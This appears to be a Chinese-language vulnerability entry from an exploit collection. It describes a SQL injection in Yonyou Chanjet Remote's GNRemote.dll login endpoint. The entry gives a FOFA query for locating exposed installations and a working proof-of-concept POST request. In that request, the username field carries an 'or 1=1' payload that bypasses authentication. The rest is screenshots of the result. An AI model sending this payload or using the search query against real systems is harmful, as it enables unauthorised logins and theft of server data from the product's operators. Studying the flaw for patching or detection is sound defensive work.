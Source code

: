 # 用友 畅捷通远程通 GNRemote.dll SQL注入漏洞

## 漏洞描述

用友 畅捷通远程通 GNRemote.dll SQL注入漏洞，攻击者通过SQL注入可以获取服务器敏感信息或者使用万能密码登录设备

## 漏洞影响

```
用友 畅捷通远程通
```

## FOFA

```
body="远程通CHANJET_Remote"
```

## 漏洞复现

登录页面

![image-20221017171544062](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210171715136.png)

验证POC

```
POST /GNRemote.dll?GNFunction=LoginServer&decorator=text_wrap&frombrowser=esl

username=%22'%20or%201%3d1%3b%22&password=%018d8cbc8bfc24f018&ClientStatus=1
```

![image-20221017171557552](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210171715601.png)

![image-20221017171609942](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210171716987.png)
